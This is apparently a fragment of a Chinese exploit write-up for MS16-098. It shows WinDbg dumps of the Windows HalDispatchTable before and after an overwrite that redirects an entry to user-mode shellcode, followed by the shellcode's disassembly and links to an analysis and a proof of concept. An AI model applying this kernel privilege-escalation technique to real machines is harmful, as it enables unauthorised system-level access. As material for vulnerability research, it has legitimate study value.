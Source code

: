 
#ShellCode

    0: kd> dds nt!HalDispatchTable
    83f753f8  00000004
    83f753fc  83e3b8a2 hal!HaliQuerySystemInformation
    83f75400  83e3c1b4 hal!HalpSetSystemInformation
    83f75404  840fe71f nt!xHalQueryBusSlots
    83f75408  00000000
    83f7540c  83e4c5ba nt!HalExamineMBR
    83f75410  83fc04e7 nt!IoReadPartitionTable
    83f75414  840fe01f nt!IoSetPartitionInformation
    83f75418  840fe2ca nt!IoWritePartitionTable
    83f7541c  83f22d37 nt!xHalHandlerForBus

after corruption

    0: kd> dds nt!HalDispatchTable
    83f753f8  00000004
    83f753fc  013711c0
    83f75400  83e3c1b4 hal!HalpSetSystemInformation
    83f75404  840fe71f nt!xHalQueryBusSlots
    83f75408  00000000

    0: kd> u 013711c0
    013711c0 a188fa3701      mov     eax,dword ptr ds:[0137FA88h]
    013711c5 8b0d80fa3701    mov     ecx,dword ptr ds:[137FA80h]
    013711cb 894804          mov     dword ptr [eax+4],ecx
    013711ce 33c0            xor     eax,eax
    013711d0 c21000          ret     10h


## 参考资料

[https://warroom.securestate.com/an-analysis-of-ms16-098/](https://warroom.securestate.com/an-analysis-of-ms16-098/)
[https://github.com/zeroSteiner/mayhem/blob/master/examples/ms16_098_bsod.py](https://github.com/zeroSteiner/mayhem/blob/master/examples/ms16_098_bsod.py)
